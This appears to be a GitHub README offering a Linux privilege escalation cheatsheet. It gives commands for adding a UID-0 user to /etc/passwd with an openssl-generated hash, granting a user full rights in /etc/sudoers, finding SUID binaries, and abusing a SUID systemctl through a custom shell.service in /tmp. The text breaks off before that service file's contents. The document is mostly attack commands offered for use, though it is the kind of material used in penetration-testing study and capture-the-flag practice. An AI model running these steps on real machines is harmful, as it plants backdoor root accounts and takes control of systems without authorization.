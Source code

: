 # 🐧 LInux-Privilege-Escalation

Linux Privilege Escalation Cheatsheet

## Edit /etc/passwd File
For this you need to have write permission on the /etc/passwd file

### Create Encrypted Password and Salt
```
openssl passwd -1 -salt <username> <password>
```
### Add The Password To /etc/passwd
```
sudo nano /etc/passwd

<username>:<hashed password>:0:0:,,,:/home/nikki:/bin/bash
```

### Login As The New User
```
su <username>
```


## Edit Sudoers File
For this you need to have write permission on the /etc/sudoers

```
sudo nano /etc/sudoers

Add a new user in the User privilege specification section

<username> ALL=(ALL:ALL) ALL
```

### Switch To The New User
```
su <username>

sudo -i
```


## Systemctl - SUID Binary

### Find The SUID Binaries
```
find / -perm -u=s -type f 2>/dev/null
```
### Locate Service Files
```
locate .service

cat /usr/lib/systemd/system/udev.service
```
### Define Your Own Service
```
cd /tmp

nano shell.service
```
***shell.service***